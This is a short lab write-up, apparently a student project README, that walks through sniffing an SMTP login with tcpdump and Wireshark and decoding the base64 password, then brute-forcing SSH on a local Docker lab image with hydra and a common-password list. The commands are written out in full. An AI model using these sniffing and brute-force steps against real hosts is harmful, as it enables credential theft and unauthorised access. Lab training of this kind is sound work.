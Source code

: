 ## Task0
=> downloaded the script
=> seen the man for tcpdump
=> opened two terminal windows
=> On first I started ```sudo tcpdump -i host smtp.sendgrid.net -w logz.pcap``` command
=> In another window I ran the script(to sniff the packets from)
=> opped logz.pcap in the wireshark
=> looked where it is written pass(Or password)
=> Took the value and used ```echo 'value(bXlwYXNzd29yZDk4OTgh)' | base64 --decode``` to get the actaul password.
=> put the password in the 0-sniffing file.


## Task1
=> Installed Docker: ```sudo snap install docker```
=> Installed hydra: ```sudo apt install hydra```
=> Ran the docker image: ```sudo docker run -p 2222:22 -d -ti sylvainkalache/264-1```
=> Corrected dictionaries from github
=> Used ```grep -l '(\w{11})' <mix-number-words file> > 11-common_pass.txt```
=> Then used hydra command ```sudo hydra -l sylvain -P 11-10k_common.txt 127.0.0.1 ssh```

